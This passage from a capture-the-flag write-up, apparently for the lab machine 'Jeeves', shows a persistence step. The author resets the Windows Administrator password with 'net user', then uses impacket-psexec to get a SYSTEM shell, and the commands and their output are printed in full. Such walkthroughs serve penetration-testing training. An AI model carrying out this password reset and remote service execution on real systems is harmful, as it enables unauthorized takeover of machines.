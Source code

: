### 6. Get persistance
So after all that, the shell still dies after a few mins. To overcome this, change the admin account password.
```shell
C:\Windows\system32>net user Administrator jib1337JIB1337!
The command completed successfully.
```
Then do psexec to get a shell on the machine.
```shell
┌──(kali㉿kali)-[10.10.14.36]-[~/Desktop]
└─$ impacket-psexec Administrator@10.129.148.24                                                           1 ⨯
Impacket v0.9.23.dev1+20210315.121412.a16198c3 - Copyright 2020 SecureAuth Corporation

Password:
[*] Requesting shares on 10.129.148.24.....
[*] Found writable share ADMIN$
[*] Uploading file ODPFVYeo.exe
[*] Opening SVCManager on 10.129.148.24.....
[*] Creating service PXae on 10.129.148.24.....
[*] Starting service PXae.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami && hostname
nt authority\system
Jeeves

C:\Windows\system32>
```
